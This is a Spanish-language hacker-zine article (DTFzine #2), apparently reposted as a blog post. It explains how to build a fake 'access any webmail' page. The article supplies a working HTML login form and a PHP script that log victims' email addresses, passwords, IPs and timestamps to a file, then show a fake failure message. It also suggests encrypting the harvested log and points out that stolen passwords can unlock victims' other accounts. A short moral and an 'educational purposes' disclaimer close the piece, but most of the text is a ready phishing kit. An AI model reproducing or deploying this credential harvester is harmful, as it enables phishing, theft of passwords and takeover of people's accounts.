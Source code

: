 ```yaml
---
layout: post
post_id: fakemail
lang: es
title: "DTFzine #2 Fake: Universal Web Mail Access"
description: "Cómo explotar un viejo truco para conseguir nombres de usuario y passwords"
keywords: "email, fake, trucos, seguridad, nombre, usuario, hacking, dtfzine"
comments: false
categories: 
  - dtfzine
---
```



    Fake: Universal-Web-mail-Access
    DTFzine #2
    Autor: NaTaSaB
    Web: http://www.merlos.org
    e-mail: www.merlos.org

## Introducción

Bueno, en este artículo vamos a explotar un viejo truco para conseguir nombres de usuario y passwords. Ya hace años salió el famoso fake de hotmail. La picaresca consistia en hacer creer al usuario que se encontraba en la página de hotmail.com, cuando en realidad estaba en una copia albergada en el servidor del "jaker" con aspecto idéntico al de la portada de hotmail. Sin embargo nuestra misión en este caso será hacer creer al usuario que puede acceder a cualquier cuenta de correo desde nuestra página. Para ello, implementaremos un pequeño y sencillo script escrito en PHP que hará el trabajo de recolector de información. También necesitamos un formulario que ha de cumplimentar nuestra víctima:

{% highlight html %}

	<------ CuT HERE ----------->

    <form name="form1" method="post" action="mail.php">
    Usuario: 
    <input type="text" name="user" />
    @
    <input type="text" name="server" />
    [Ej: mail@server.com or for pop3 account user @ pop3.server.com]&lt;br/&gt;
    <br />
    Password: 
    <input type="text" name="password" />
    <input type="submit" name="Submit" value="Submit" />
    </form>

<------ End of CUT ---------->
{% endhighlight %}

Este formulario es lo que tendría que pegar dentro del BODY de la página HTML el malintencionado Webmaster. Por otra parte, no estaría de más adornarlo un poquito, con algún slogan impactante al más puro estilo americano o poner algo tipo "Powered by AllWebmails.com" o similar.
	
El código del CGI es el siguiente y ha de estar en un fichero HTML con el nombre mail.php (el que pone en el action del <form>)

{% highlight php %}
	<----- Begin of PHP code ------>

<?php 	
	//Comprobamos q haya metido todos los datos
	if (!$user || !$server || !$password ) 
		die ("Por favor, rellene todos los campos del formulario");

	// Guardamos los datos en un fichero de texto.Además guardamos la fecha e IP.

	$file="info.dat";

	if (!($fp=fopen ($file,"a"))) 
		die ("Ocurrió un fallo al consultar las Bases de Datos.");
	$date=date("D d/M/Y H:i",time());
	$host = gethostbyaddr($REMOTE_ADDR);
	$line=$date ." ". $REMOTE_HOST ." " . $REMOTE_ADDR . 
		" [" . $host . "] " . "$user @ $server $password\n\r";
	fwrite($fp,$line);
	fclose($fp);
	//Por último, decimos q no pudimos acceder al servidor

	echo "&lt;h3&gt;Lo sentimos, pero no pudimos acceder a su cuenta en $server.&gt;/br&gt;&lt;/h3&gt;";
	echo "Asegurese de que introdujo los datos correctos.<BR>";	
	echo "Inténtelo desde la página WEB del servidor. Gracias";
?>
{% endhighlight%}
Si no quieres guardar la información en plain text mira en la librería de funciones mcrypt (mcrypt_encrypt y mcrypt_decrypt) si el server en el q alojas la web tiene habilitado ese modulo. También puedes usar un simple XOR te llega.
 	
Como ya has visto con unas pocas líneas podemos obtener datos comprometidos de un usuario, y nos los habrá dado él. Piensa que que si entramos en su cuenta de correo obtendremos mucha información acerca de ese usuario (nombre, edad, nacionalidad, gustos, aficciones, otros passwords...), incluso podremos conseguir sus datos de conexión, y puede que cuenta corriente, ya que algunos ISP utilizan el mismo password para los datos de conexión y para el e-mail.

Moraleja: Hay que ser cauto a la hora de enviar datos de usuario y passwords por la red, especialmente páginas web ajenas a la propia ya que puede haber espavilados que intenten aprovecharse de nosotros, a veces incautos navegantes, ignorantes de los maliciosos planes de estos desalmados xDDDD

Nota: Este texto se distribuye con fines educativos. El autor no se hace responsable de los usos ilícitos que de esta información se pueda hacer. DTFzine.